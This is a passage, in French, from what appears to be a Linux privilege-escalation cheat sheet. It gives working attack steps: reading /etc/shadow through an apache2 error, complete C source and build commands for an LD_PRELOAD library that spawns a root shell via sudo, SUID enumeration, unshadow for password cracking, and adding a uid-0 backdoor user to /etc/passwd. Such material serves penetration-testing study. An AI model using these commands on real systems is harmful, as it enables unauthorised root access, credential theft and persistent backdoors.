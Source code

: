 Cette méthode consiste à utiliser une fonctionnalité d'une application pour révéler des informations sensibles. L'exemple donné concerne le serveur Apache2, qui a une option (-f) permettant de charger des fichiers de configuration alternatifs. En demandant à Apache de charger le fichier /etc/shadow (qui contient les hachages des mots de passe des utilisateurs), le serveur génère un message d'erreur qui comprend la première ligne de ce fichier.
```
apache2 -f /etc/shadow
```
    
2. **Exploitation de LD_PRELOAD** :
LD_PRELOAD est une fonctionnalité qui permet à un programme d'utiliser des bibliothèques partagées avant toute autre bibliothèque. Si un utilisateur peut exécuter une commande avec sudo et que l'option env_keep est activée pour LD_PRELOAD, il est possible d'injecter une bibliothèque partagée qui exécute du code malveillant avant le programme cible.
```
#include <stdio.h> 
#include <sys/types.h> 
#include <stdlib.h>  

void _init() {   
	unsetenv("LD_PRELOAD");   
	setgid(0);   
	setuid(0);   
	system("/bin/bash"); 
	}
```
Ce code peut être sauvegardé en tant que shell.c et compilé en une bibliothèque partagée (shell.so) en utilisant gcc avec les options appropriées :
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Ensuite, cette bibliothèque partagée peut être utilisée lors de l'exécution d'un programme avec sudo en spécifiant l'option LD_PRELOAD, ce qui entraînera le lancement d'un shell avec les privilèges root :
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

## 5) SUID/SGID Exploit 
* SUID (Set-user Identification) et SGID (Set-group Identification). permettent aux fichiers d'être exécutés avec le niveau de permission du propriétaire du fichier ou du propriétaire du groupe, respectivement.
* Lister les fichiers dont les bits SUID ou SGID sont activés.
```
find / -type f -perm -04000 -ls 2>/dev/null
```
* Comparer les exécutables avec [GTFOBins](https://gtfobins.github.io/#+suid) 
* Créer un fichier craquable par John The Ripper à partir du /etc/passwd et /etc/shadow
```
unshadow passwd.txt shadow.txt > passwords.txt
```
* Ajouter un nouvel utilisateur disposant des privilèges de l'administrateur (root) Nous aurons besoin de la valeur de hachage du mot de passe que nous voulons que le nouvel utilisateur ait. Cela peut être fait rapidement en utilisant l'outil openssl
```
openssl passwd -1 -salt TOTO password1 
-1 : MD5 crypté doit être utilisé
-salt TOTO: sel specifique 
password1 : mot de passe donné
```
* On ajoute le hash généré avec un login dans /etc/passwd avec le bash /bin/bash 
```
hacker:@HASH:0:0:root:/root:/bin/bash
```
